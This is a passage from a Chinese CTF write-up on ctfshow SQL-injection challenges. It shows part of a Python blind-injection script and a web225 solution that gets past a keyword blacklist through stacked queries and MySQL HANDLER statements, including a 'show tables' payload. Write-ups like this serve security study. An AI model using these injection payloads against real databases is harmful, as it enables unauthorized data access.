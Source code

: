 ```python
            'limit' : 1
        }
        r = requests.get(url=url, params=params)
 
		if 'passwordAUTO' in r.text: # 回显passwordAUTO，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```

## web225（handler）

```sql
  //分页查询
  $sql = "select id,username,pass from ctfshow_user where username = '{$username}';";
      
返回逻辑

  //师傅说过滤的越多越好
  if(preg_match('/file|into|dump|union|select|update|delete|alter|drop|create|describe|set/i',$username)){
    die(json_encode($ret));
  }
 
```

堆叠注入，常规的查询被ban了，考虑使用handler，先看官网文档说明

>HANDLER *tbl_name* OPEN [ [AS] *alias*] 
>
>HANDLER *tbl_name* READ *index_name* { = | <= | >= | < | > } (*value1*,*value2*,...)    
>
>​	[ WHERE *where_condition* ] [LIMIT ... ] 
>
>HANDLER *tbl_name* READ *index_name* { FIRST | NEXT | PREV | LAST }    
>
>​	[ WHERE *where_condition* ] [LIMIT ... ] 
>
>HANDLER *tbl_name* READ { FIRST | NEXT }    
>
>​	[ WHERE *where_condition* ] [LIMIT ... ] 
>
>HANDLER *tbl_name* CLOSE

handler能够一行一行的浏览一个表中的数据，但是 handler 语句并不具备 select 语句的所有功能。它是 MySQL 专用的语句，并没有包含到SQL标准中。handler 语句提供通往表的直接通道的存储引擎接口，可以用于 MyISAM 和 InnoDB 表。

首先查表：`payload：ctfshow';show tables;`
